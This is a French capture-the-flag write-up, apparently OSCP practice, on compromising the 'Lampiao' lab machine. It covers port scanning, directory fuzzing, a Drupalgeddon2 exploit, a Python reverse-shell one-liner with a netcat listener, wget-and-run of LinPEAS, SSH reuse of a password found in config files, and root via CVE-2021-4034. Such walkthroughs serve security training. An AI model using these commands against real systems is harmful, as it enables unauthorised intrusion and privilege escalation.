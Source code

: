 # LAMPIAO

    sudo nmap -A -p1-10000 192.168.206.48
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.206.48 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.206.48

Scans classiques.

Le serveur web du port 80 amène juste sur un dessin en ASCII mais il semble y avoir un deuxième serveur web sur le port 1898.

    whatweb http://192.168.206.48:1898

On voit que le site utilise Drupal v7, cela se remarque aussi dans le code source. L'un des articles mentionne des fichiers ainsi que des tests, et les fichiers en question se trouvent bien à la racine du site web puisque l'URL http://192.168.206.48:1898/audio.m4a fonctionne bien par exemple.

J'ai donc lancé des scans sur les fichiers à la racine du site web en parallèle de mes recherches sur Drupal :

    feroxbuster -u http://192.168.206.48:1898/ -x log,txt,php,conf,html
    ffuf -u http://192.168.206.48:1898/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.txt,.ini,.conf,.html -fc 404

Je n'ai rien trouvé d'intéressant dans les fichiers obtenus, même dans le **robots.txt** qui était bien rempli, mais j'ai trouvé un exploit très intéressant sur Drupal : https://github.com/dreadlocked/Drupalgeddon2

J'ai vu que l'on pouvait directement obtenir un shell Meterpreter en passant par Metasploit mais j'ai souhaité reproduire l'exploit sans ces deux outils pour mieux me préparer pour l'OSCP.

    ruby Drupal.rb http://192.168.206.48:1898/
    ...
    lampiao>> ls /home
    lampiao>> cat /home/tiago/local.txt

Le shell PHP était assez contraignant, j'ai donc opté pour un reverse-shell en Python classique, récupéré sur le site https://www.revshells.com/

    lampiao>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

Et de l'autre côté : 

    rlwrap nc -nvlp 9999

### Élévation de privilèges : 

Les vérifications classiques n'ont pas fonctionné, je suis donc passé par LinPEAS : 

    wget http://192.168.45.230/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee linpeas.txt

Dans la catégorie **"Searching passwords in config PHP files"** on voit les trois lignes suivantes :

> 'password' => 'Virgulino',   
> 'password' => 'password',   
> 'password' => 'password',

J'ai donc tenté de me connecter avec le premier mot de passe sur l'autre utilisateur, cela a fonctionné mais ne m'a pas plus avancé pour l'élévation de privilèges.

    ssh 192.168.206.48 -l tiago
    
J'ai ensuite remarqué le CVE 2021-4034 qui sortait du lot et qui était surligné par LinPEAS. Il suffisait tout simplement de l'appliquer pour passer root. 

Voir : https://github.com/berdav/CVE-2021-4034/blob/main/cve-2021-4034.sh

    ./CVE.sh
    ls /root
    cat /root/proof.txt


